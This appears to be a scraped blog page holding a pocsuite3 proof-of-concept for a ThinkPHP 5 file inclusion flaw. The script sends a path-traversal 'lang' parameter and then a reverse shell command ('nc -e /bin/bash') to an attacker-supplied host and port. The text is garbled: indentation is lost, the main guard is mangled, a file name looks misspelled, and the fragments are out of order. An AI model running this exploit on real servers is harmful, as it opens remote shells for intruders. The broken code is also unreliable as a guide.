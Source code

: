     def main():  
    register_poc(ThinkPHP5_File_Inclusion)  
      
    if name == 'main':  
    main()  
    

最后，我们再补充一点。

![](https://gitee.com/fuli009/images/raw/master/public/20230215145906.png)

    
    
    import pocsuite3  
    from pocsuite3.api import requests as req  
    from pocsuite3.api import register_poc  
    from pocsuite3.api import Output, POCBase  
      
    class ThinkPHP5_File_Inclusion(POCBase):  
    vulID = '12345'  
    version = '1.0'  
    author = 'test'  
    vulDate = '2022-12-09'  
    createDate = '2022-12-09'  
    updateDate = '2022-12-09'  
    references = ['https://tttang.com/archive/1865/']  
    name = 'ThinkPHP5 File Inclusion Vulnerability'  
    appPowerLink = 'https://thinkphp.cn'  
    appName = 'ThinkPHP'  
    appVersion = '5.0'  
    vulType = 'File Inclusion'  
    desc = '''  
    This POC checks for a file inclusion vulnerability in ThinkPHP 5.0.  
    To exploit this vulnerability, the LANG_SWITCH_ON value in the config.php file must be set to true,  
    and a malicious lang parameter must be passed in the URL. This can allow an attacker to include the  
    phearcmd.php file and execute arbitrary commands, including a reverse shell.  
    '''  
    samples = ['']  
      
    def _attack(self):  
        # your code here  
        # send a request with a malicious lang parameter to include phearcmd.php  
        url = self.url + '?lang=../phearcmd.php'  
        r = req.get(url)  
      
        # check if the phearcmd.php file was included  
        if 'PhearCommand execution' in r.text:  
            # send a request to execute a reverse shell command  
            command = 'php -r "system(\'nc -e /bin/bash {0} {1}\');"'.format(self.options.get('lhost'), self.options.get('lport'))  
            url = self.url + '?phearcmd=' + command  
            req.get(url)  
      